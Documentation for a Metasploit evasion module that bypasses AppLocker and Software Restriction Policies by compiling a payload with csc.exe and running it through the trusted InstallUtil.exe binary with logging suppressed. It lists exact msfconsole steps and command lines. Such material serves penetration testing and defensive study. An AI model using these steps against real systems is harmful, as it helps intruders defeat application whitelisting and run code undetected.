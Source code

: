 ## Intro

This module is designed to evade solutions such as software restriction policies and Applocker. 
Applocker in its default configuration will block code in the form of executables (.exe and .com, .msi), scripts (.ps1, .vbs, .js) and dll's from running in user controlled directories.
It enforces this by employing whitelisting, in that code can only be run from the protected directories and sub directories of "Program Files" and "Windows" 
The main vector for this bypass is to use the trusted binary InstallUtil.exe which is located within the trusted Windows directory and also has the ability to execute user supplied code.

## Vulnerable Application

This evasion will work on all versions of Windows that include .NET versions 3.5 or greater that has solutions such as Applocker or Software Restriction Policies active.

## Options

- **FILENAME** - Filename for the evasive file (default: install_util.txt).

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use evasion/windows/applocker_evasion_install_util`
  3. Do: `set PAYLOAD <payload>`
  4. Do: `run`
  5. The module will now display instructions of how to proceed:
     `[+] install_util.txt stored at /root/.msf4/local/install_util.txt`
     `[*] Copy install_util.txt to the target`
     `[*] Compile using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\csc.exe /out:installutil.exe install_util.txt` - replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").
     `[*] Execute using: C:\Windows\Microsoft.Net\Framework64\[.NET Version]\InstallUtil.exe /logfile= /LogToConsole=false /U installutil.exe` replace [.NET Version] with the version directory present on the target (typically "v4.0.30319").

## References

https://attack.mitre.org/techniques/T1118/
